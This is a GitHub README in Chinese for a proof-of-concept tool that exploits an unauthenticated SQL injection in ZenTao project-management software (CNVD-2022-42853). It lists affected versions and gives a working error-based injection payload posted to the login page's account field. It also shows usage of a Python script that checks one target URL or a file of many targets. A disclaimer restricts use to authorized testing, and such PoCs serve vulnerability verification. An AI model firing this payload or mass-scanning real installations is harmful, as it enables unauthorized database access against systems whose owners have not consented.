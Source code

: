 # zentao_sqli_poc

author: colind0pe

项目地址: https://github.com/colind0pe/zentao_sqli_poc

## 0x01 声明

- **仅限用于安全研究人员在授权的情况下使用，请遵守网络安全法，如您需要测试本工具的可用性，请自行搭建靶机环境。**

- **严禁未经授权的渗透测试行为，在使用本工具过程中存在的任何非法行为，您需自行承担法律责任。**

## 0x02 漏洞介绍

漏洞名称：禅道未授权SQL注入漏洞

漏洞编号：CNVD-2022-42853

影响范围：

* 禅道企业版 6.5

* 禅道旗舰版 3.0 8

* 禅道开源版 16.5

* 禅道开源版 16.5.beta1

## 0x03 漏洞复现

payload：

``` 
url: /zentao/user-login.html

POST: account=admin'+and+(select+extractvalue(1,concat(0x7e,(MD5(49)),0x7e)))# 
```

## 0x04 使用方法

usage: zentao_sqli_poc.py.py [-h] [-u URL] [-f FILE]

示例: python3 zentao_sqli_poc.py -u http://127.0.0.1/

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target URL
  -f FILE, --file FILE  Targets File Path

## 0x05 Screenshots

![Screenshots](https://github.com/colind0pe/zentao_sqli_poc/blob/master/Screenshots.png?raw=true)

